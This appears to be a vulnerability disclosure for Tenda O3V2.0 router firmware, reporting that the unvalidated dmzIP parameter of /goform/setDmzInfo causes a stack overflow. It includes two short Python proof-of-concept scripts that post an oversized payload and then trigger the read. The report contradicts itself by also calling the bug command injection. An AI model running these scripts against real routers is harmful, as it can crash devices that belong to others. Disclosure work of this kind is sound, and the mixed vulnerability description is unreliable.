 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dmzIP` POST parameter accepted by `/goform/setDmzInfo` is written to the configuration key `wan1.dmzip` or `wan5.dmzip`  via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDmzInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle`wan1.dmzip` or `wan5.dmzip`.

## Technical details

- The `setDmzInfo` endpoint accepts a POST parameter `dmzIP` and calls `SetValue("wan1.dmzip", V7)` or ` SetValue("wan5.dmzip", V7)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121650.png)

- The `getDmzInfo` endpoint reads `dmzIP` via `GetValue("wan1.dmzip", v11)` or `GetValue("wan5.dmzip", v11)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121458.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `wan1.dmzip` or `wan5.dmzip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDmzInfo"
payload =  b"a"*1000

data = {"dmzIP":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDmzInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)

